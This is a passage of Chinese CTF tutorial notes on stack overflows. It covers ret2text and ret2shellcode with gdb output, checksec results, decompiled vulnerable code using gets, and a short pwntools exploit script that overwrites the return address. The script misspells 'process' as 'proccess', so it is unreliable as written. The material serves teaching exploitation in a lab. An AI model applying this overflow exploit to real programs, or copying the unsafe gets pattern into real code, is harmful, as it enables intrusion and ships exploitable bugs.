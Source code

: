```assembly
0012| 0xffffd54c --> 0x0
0016| 0xffffd550 --> 0xffffd5a0 --> 0x1
0020| 0xffffd554 --> 0x0
0024| 0xffffd558 --> 0xf7ffd000 --> 0x28f24 
0028| 0xffffd55c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080486ae      24      in ret2text.c
gdb-peda$ 
```

直接计算 buff 位置 `0xffffd55c` 到 EBP `0xffffd5c8` 的偏移，再 +4 跳过 old EBP 即可覆盖返回地址。

```python
# exp.py
from pwn import *
r = proccess('./ret2text')
target = 0x0804863A
r.sendline('a' * (0xc8-0x5c+4) + p32(target))
r.interactive()
```

## ret2shellcode

控制程序执行 shellcode，需要自己填充 shellcode，填充区域需要有可执行权限。

[ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode)

```assembly
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

啥都没开，可以填充 shellcode。	

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(&s);
  strncpy(buf2, &s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
